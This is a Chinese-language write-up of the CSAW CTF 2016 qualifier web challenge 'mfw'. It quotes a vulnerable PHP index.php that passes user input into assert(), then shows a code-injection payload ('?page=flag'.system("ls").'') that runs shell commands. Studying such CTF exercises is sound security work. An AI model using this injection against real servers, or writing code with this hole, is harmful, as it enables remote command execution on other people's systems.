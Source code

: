# Writeup-of-web-of-csaw-ctf-2016-quals
This is the Wirteup of web of csaw-ctf-2016-quals

通过 《write-ups-2016》 repository 中链接的几个Writeups可以看到解题方法https://github.com/ctfs/write-ups-2016/tree/master/csaw-ctf-2016-quals/web/mfw

这里是另外一些解题思路和备份。

首先通过上面链接的Writeups里的工具和思路下载得到源码。
主要是index.php源码。
```
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```
下载到的源码应该是历史版本，所以flag.php中没有给出flag值。
从index.php里可以看出，虽然有require_once $file可以用来包含flag.php，但因为flag是被注释掉的，我们也看不到。
代码中有assert()函数，应该很敏感地想到要利用它来执行任意命令，从而拿到flag。


观察可以发现，page传入的参数存在代码注入漏洞，顺便提一下assert()函数会把传入的字符串当做php代码来执行。

##注入思路：整体上可以注释掉', '..') === false，或者不注释，只在中间插入。另外要注意闭合单引号和括号。


中间插入型，使用 . 连接符：

查看目录：?page=flag'.system("ls").'

![description](Writeup-of-web-of-csaw-ctf-2016-quals/images/1.png)







